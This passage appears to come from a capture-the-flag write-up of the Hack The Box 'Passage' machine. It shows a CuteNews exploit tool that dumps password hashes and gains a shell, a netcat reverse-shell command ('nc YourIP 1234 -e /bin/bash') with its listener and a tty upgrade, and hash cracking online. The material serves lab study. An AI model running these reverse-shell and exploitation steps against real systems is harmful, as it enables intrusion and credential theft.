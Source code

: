 ```
Enter the URL> http://10.10.10.206
================================================================
Users SHA-256 HASHES TRY CRACKING THEM WITH HASHCAT OR JOHN
================================================================
7144a8b531c27a60b51d81ae16be3a81cef722e11b43a26fde0ca97f9e1485e1
4bdd0a0bb47fc9f66cbf1a8982fd2d344d2aec283d1afaebb4653ec3954dff88
e26f3e86d1f8108120723ebe690e5d3d61628f4130076ec6cb43f16f497273cd
f669a6f691f98ab0562356c0cd5d5e7dcdc20a07941c86adcfce9af3085fbeca
4db1f0bfd63be058d4ab04f18f65331ac11bb494b5792c480faf7fb0c40fa9cc
================================================================

=============================
Registering a users
=============================
[+] Registration successful with username: 5at0mf3bU0 and password: 5at0mf3bU0

=======================================================
Sending Payload
=======================================================
signature_key: e308dc5a62da8774eb77a4d151d0d456-5at0mf3bU0
signature_dsi: a90c0a071a7e6ff70eaa3fed9d2487e7
logged in user: 5at0mf3bU0
============================
Dropping to a SHELL
============================

command > nc YourIP 1234 -e /bin/bash
```

I use the tool to get a better netcat shell.

```
nc -lvp 1234
Listening on [0.0.0.0] (family 0, port 1234)
Connection from 10.10.10.206 57806 received!
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@passage:/var/www/html/CuteNews/uploads$ whoami
whoami
www-data
```

Next I try to crack the hashed passwords  we got from the tool with [Crackstation](https://crackstation.net). We get a hit.

<img src="/images/pass/crack.png" >
